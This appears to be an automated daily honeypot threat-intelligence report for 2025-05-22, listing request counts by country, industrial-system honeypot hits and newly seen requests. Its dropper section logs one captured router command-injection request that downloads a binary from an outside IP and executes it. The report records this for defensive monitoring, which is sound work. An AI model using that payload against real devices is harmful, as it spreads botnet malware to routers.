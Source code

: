 ```yaml
---
title: "Report: 2025-05-22 "
date: 2025-05-22
desciption: "Report: 2025-05-22" 
tags: [repport, daily]
---
```



# Daily Report: 2025-05-22 
# Executive summary
interaction report on http service of various Hhoneypot around the world. 

- [Executive summary](#executive_summary)
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## executive_summary

In today’s repport, we detected 1 stage 1 IP address(es), linked to 1 dropper URL(s).  

There are 1 new requests that have never been observed before (these were added to the monitored [request database.](https://blog.shoggoth.industries/database/request_database/)).  

A total of 981 requests were recorded during the day, originating from 1 different countries, with a peak of 300 requests coming from BG.


## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| US               | Germany            |
| US               | Germany            |
| US               | Germany            |
| US               | Germany            |
| SG               | Germany            |
| DE               | Germany            |
| US               | Dubai              |
| US               | Georgia            |
| CN               | Georgia            |

## botnet_dropper_behaviour
| remote_addr   | request                                                                                                                                                                                             |
|:--------------|:----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 141.98.11.137 | GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(id%3E%60cd+%2Ftmp%3B+rm+-rf+r%3B+wget+http%3A%2F%2F212.81.47.226%2Fr%3B+chmod+777+r%3B+.%2Fr+tplink%3B+rm+-rf+r%60) HTTP/1.1 |

## request

The list of requests presented here are those that have not yet been yet integrated into the [request database.](https://blog.shoggoth.industries/database/request_database/)

|    |   number_of_occurence | request                                       |
|---:|----------------------:|:----------------------------------------------|
| 83 |                     3 | CONNECT ipv4-internet.yandex.net:443 HTTP/1.1 |

## country_iso_code

|    |   number_of_occurence | country_iso_code   |
|---:|----------------------:|:-------------------|
|  0 |                   300 | BG                 |
|  1 |                   272 | US                 |
|  2 |                    70 | HK                 |
|  3 |                    54 | PL                 |
|  4 |                    49 | DE                 |
|  5 |                    42 | NL                 |
|  6 |                    21 | CN                 |
|  7 |                    14 | SG                 |
|  8 |                    12 | AU                 |
|  9 |                    12 | PT                 |
| 10 |                    11 | FR                 |
| 11 |                    11 | JP                 |
| 12 |                     9 | VN                 |
| 13 |                     9 | GB                 |
| 14 |                     8 | SC                 |
| 15 |                     7 | AO                 |
| 16 |                     7 | LT                 |
| 17 |                     7 | AZ                 |
| 18 |                     6 | GH                 |
| 19 |                     6 | IN                 |
| 20 |                     5 | ZA                 |
| 21 |                     5 | CA                 |
| 22 |                     5 | SE                 |
| 23 |                     4 | KR                 |
| 24 |                     4 | RU                 |
| 25 |                     4 | BE                 |
| 26 |                     3 | TR                 |
| 27 |                     3 | ES                 |
| 28 |                     3 | UA                 |
| 29 |                     2 | ID                 |
| 30 |                     2 | KW                 |
| 31 |                     2 | IT                 |
| 32 |                     2 | AL                 |
| 33 |                     2 | RO                 |
| 34 |                     2 | TH                 |
| 35 |                     2 | AE                 |
| 36 |                     2 | BR                 |
| 37 |                     1 | EE                 |
| 38 |                     1 | IE                 |
